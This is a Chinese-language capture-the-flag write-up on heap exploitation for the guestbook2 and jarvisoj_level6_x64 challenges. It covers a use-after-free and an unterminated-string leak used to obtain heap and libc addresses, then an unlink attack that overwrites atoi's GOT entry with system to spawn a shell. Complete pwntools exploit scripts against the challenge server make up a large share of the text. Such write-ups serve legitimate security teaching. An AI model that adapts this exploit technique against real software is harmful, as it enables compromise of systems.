










## 保护策略：



## 漏洞分析：

在delete函数中，free函数执行后，未将指针置空存在UAF漏洞




在读入数据的函数中，未在字符串的末尾添加\x00，来截断字符串，导致show函数中的%s可能泄露出更多的数据




保护为Partial RELRO，这就意味着我们可以修改got表。

## 程序分析：




在程序的开始就创建了一个很大的堆块，用于之后存放我们创建的堆块的各种信息。

而我们通常做的堆题，堆块的信息(包括堆块的地址，堆块的大小等等)都记录在了bss段，但是这道题有点特殊，记录在了最开始创建的一个大堆块里。


在delete函数中虽然存在了uaf，但把存放堆块大小和标志位都给置空了，而edit函数中则检查了标志位，因此无法直接释放掉堆块去写入数据。并且我们申请的堆块会自动和0x80对齐。这就意味着我们这道题无法将堆块释放到fastbin中。


在edit函数中虽然再次问了我们size，但是却用了realloc函数，因此这里也无法溢出。

## 利用思路：

这道题我们利用的是unlink，而这个题和常规的unlink有些不一样，常规的unlink一般是给个溢出，然后去篡改bss段存放的堆块信息。而这道题不存在溢出，是利用UAF，覆写之前被free掉的堆块的prev_size和size位来达到unlink的。

不过在这之前我们需要先泄露一下地址。

### 泄露地址：

我们先申请四个堆块，分别为chunk1,chunk2,chunk3,chunk4。我们将chunk1和chunk3释放掉，因为释放掉后一定会进入unsorted bin中，如果不用堆块隔开的话，那么刚释放掉的堆块就会和unsorted bin中的堆块合并。同时还要防止和top chunk合并，因此再申请一个chunk4。

此时的chunk1和chunk3的情况如下：




而在show函数中，对堆块的标志位进行了检查，如果堆块被释放的话，是无法打印出来里面的内容的。但如果我们再将chunk1和chunk3申请出来并写入八字节的数据的话，此时的标志位为1，可以用show函数打印其中的数据，因为输入数据时，没有加上\x00来截断字符串，因此可以将位于unsorted bin中bk指针给泄露出来。(如下)




此时我们的exp为：

```py
add(0x80,'a'*0x80)
add(0x80,'b'*0x80)
add(0x80,'c'*0x80)
add(0x80,'d'*0x80)
delete(0)
delete(2)
add(8,'u'*8)
add(8,'s'*8)
show()
```

此时，我们已经拿到了堆地址和libc地址。也就是使用unlink时，那个ptr我们已经有了。因此接下来我们就要伪造堆块的prev_size和size。

### unlink

首先我们需要构造一个fake chunk。其size为0x81 prev_size为0，然后构造一个ptr-0x18和ptr-0x10。ptr为&chunk1的地址。接下来填充垃圾字符，直到原本之前chunk2的位置，然后覆盖已经被释放掉的chunk2的prev_size为0x80(需要和fake chunk的size一样)，而size要为0x90(因为至少要为0x90大于fastbin的范围，否则无法合并，而本题又只能申请跟0x80对齐的size，因此最小满足条件的size就是0x90)。如果是寻常unlink的话，到这里就ok了，因为我们是溢出修改的size，只要**不破坏原本的堆块布局(就是要确保根据我们篡改的size还能够正常的找到top chunk)**，就好了。但是这道题我们并不是溢出，而且没有做一个防止合并的堆块,如果就这样写完的话，释放掉引线堆块，它会和top chunk合并，因此我们需要再写入一定的垃圾数据，然后再布置一个chunk头，这个chunk头的目的就是去做一个防止和top chunk合并的堆块。**而这个chunk头的size不能乱写，必须要保证能根据这个size找到top chunk的地址。**

因此这里的布局后的payload应该如下：

```py
delete(0)#先将这四个堆块全部释放，为之后覆写堆块中的size和prev_size做准备
delete(1)
delete(2)
delete(3)
payload=p64(0)+p64(0x81)+p64(ptr-0x18)+p64(ptr-0x10)
payload=payload.ljust(0x80,b'a')
payload+=p64(0x80)+p64(0x90)
payload+=b'a'*0x80+p64(0x0)+p64(0x71)
add(len(payload),payload)
```

此时堆块的布局如下：




切记，防止合并堆块的size也很重要，必须要让堆块的地址加上size为top chunk的地址。

然后我们再次释放引线堆块(因为这个堆块已经被释放过了，所以我们要再释放一次)，触发unlink合并。&fake-0x18这个地址被写入大堆块中。

unlink后的大堆块中的数据如下：




此时再编辑chunk0就可以修改大堆块中存放的chunk地址了，我们修改atoi的got表，写入system函数地址即可。

最后一点需要注意的就是，edit函数写入atoi的got表时，**顺便篡改一下堆块大小为八字节，不然的话再写入0x120的数据会篡改掉其他函数的got表导致程序崩溃**。

## EXP:

```py
from tools import *
p,e,libc=load("a","node4.buuoj.cn:26866")
context.log_level='debug'
d_d=0x4010EC
d_a=0x4010D4
d_e=0x4010E0
d_s=0x4010C8
def add(size,content):
    p.sendlineafter('Your choice: ',str(2))
    p.sendlineafter("Length of new post: ",str(size))
    p.sendafter('Enter your post: ',content)

        
def edit(index,size,content):
    p.sendlineafter('Your choice: ',str(3))
    p.sendlineafter('Post number: ',str(index))
    p.sendlineafter('Length of post: ',str(size))
    p.sendafter('Enter your post: ',content)

def delete(index):
    p.sendlineafter('Your choice: ',str(4))
    p.sendlineafter('Post number: ',str(index))
    
def show():
    p.sendlineafter('Your choice: ',str(1))  

add(0x80,'a'*0x80)
add(0x80,'b'*0x80)
add(0x80,'c'*0x80)
add(0x80,'d'*0x80)
delete(0)
delete(2)

add(8,'u'*8)
add(8,'s'*8)
show()
p.recvuntil(b'u'*8)
heap_addr=u64(p.recv(4).ljust(8,b'\x00'))
log_addr('heap_addr')
leak_libc=u64_recv_libc()
libc_base=leak_libc-0x3c4b78
sys_addr=libc_base+0x0000000000045390#libc.symbols['system']
log_addr('libc_base')
delete(0)
delete(1)
delete(2)
delete(3)
#debug(p,d_a,d_s,d_e,d_d)
ptr=heap_addr-0x1910
log_addr('ptr')
payload=p64(0)+p64(0x81)+p64(ptr-0x18)+p64(ptr-0x10)
payload=payload.ljust(0x80,b'a')    
payload+=p64(0x80)+p64(0x90)
payload+=b'a'*0x80+p64(0x0)+p64(0x71)
add(len(payload),payload)

delete(1)
payload=p64(0)+p64(1)+p64(0x8)+p64(e.got['atoi'])

edit(0,0x120,payload.ljust(0x120,b'a'))
edit(0,8,p64(sys_addr))
p.sendlineafter('Your choice: ',b'/bin/sh\x00')
p.interactive()
```




## jarvisoj_level6_x64的exp

这道题和guestbook2这道题一模一样(除了交互)

直接贴下exp：

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',28822)
context.log_level='debug'
d_d=0x4010EC
d_a=0x4010D4
d_e=0x4010E0
d_s=0x4010C8

def add(size,content):
    p.sendlineafter('Your choice: ',str(2))
    p.sendlineafter("Length of new note: ",str(size))
    p.sendafter('Enter your note: ',content)

        
def edit(index,size,content):
    p.sendlineafter('Your choice: ',str(3))
    p.sendlineafter('Note number: ',str(index))
    p.sendlineafter('Length of note: ',str(size))
    p.sendafter('Enter your note: ',content)

def delete(index):
    p.sendlineafter('Your choice: ',str(4))
    p.sendlineafter('Note number: ',str(index))
    
def show():
    p.sendlineafter('Your choice: ',str(1))  

add(0x30,'a'*0x30)
add(0x30,'b'*0x30)
add(0x30,'b'*0x30)
add(0x30,'b'*0x30)
delete(0)
delete(2)

add(8,'t'*0x8)
add(8,'s'*0x8)

show()
p.recvuntil('tttttttt')
heap_addr=u64(p.recvuntil(b'\x0a')[:-1].ljust(8,b'\x00'))
#heap_addr=u64(p.recv(3).ljust(8,b'\x00'))
log_addr('heap_addr')
p.recvuntil(b'b'*0x30)
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))#u64_recv_libc()
libc_base=leak_libc-0x3c4b78
log_addr('libc_base')
free_hook=libc_base+libc.symbols['__free_hook']
sys_addr=libc_base+0x0000000000045390#+libc.symbols['system']
ptr=heap_addr-0x1910#0x18f8
log_addr('ptr')
#delete(0)
delete(1)
delete(2)
delete(3)

payload=p64(0x0)+p64(0x81)+p64(ptr-0x18)+p64(ptr-0x10)
edit(0,0x120,payload.ljust(0x80,b'a')+p64(0x80)+p64(0x90)+b'a'*0x80+p64(0x0)+p64(0x71))
delete(1)
payload=p64(0)+p64(1)+p64(0x8)+p64(e.got['atoi'])
edit(0,0x120,payload.ljust(0x120,b'a'))
#debug(p,d_d,d_s,d_a,d_e,0x4008A6)
edit(0,0x8,p64(sys_addr))
p.sendlineafter('Your choice: ','/bin/sh\x00')
p.interactive()
```

